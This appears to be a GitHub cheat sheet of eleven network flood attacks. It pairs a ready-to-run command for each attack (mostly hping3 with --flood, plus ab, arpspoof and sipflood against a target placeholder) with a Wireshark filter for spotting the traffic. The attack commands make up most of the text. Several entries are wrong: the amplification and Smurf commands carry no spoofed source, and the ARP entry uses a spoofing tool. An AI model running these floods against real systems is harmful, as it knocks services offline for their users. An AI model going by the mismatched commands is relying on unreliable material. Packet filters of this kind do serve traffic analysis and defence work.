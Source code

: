 ### 1. SYN Flood
A SYN flood attack involves sending a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```

### 2. UDP Flood
A UDP flood attack sends a large number of UDP packets to random ports on a remote host.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
udp
```

### 3. ICMP Flood (Ping Flood)
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

### 4. HTTP Flood
An HTTP flood attack sends a large number of HTTP requests to a web server.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```

**Wireshark Filter:**
```plaintext
http
```

### 5. DNS Flood
A DNS flood attack sends a large number of DNS requests to a DNS server.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 6. SMTP Flood
An SMTP flood attack sends a large number of SMTP requests to an SMTP server.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
smtp
```

### 7. ARP Flood
An ARP flood attack sends a large number of ARP requests to a network.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```

**Wireshark Filter:**
```plaintext
arp
```

### 8. DNS Amplification Attack
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 9. NTP Flood
An NTP flood attack sends a large number of NTP requests to an NTP server.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
ntp
```

### 10. SIP Flood
A SIP flood attack sends a large number of SIP requests to a SIP server.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```

**Wireshark Filter:**
```plaintext
sip
```

### 11. Smurf Attack
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

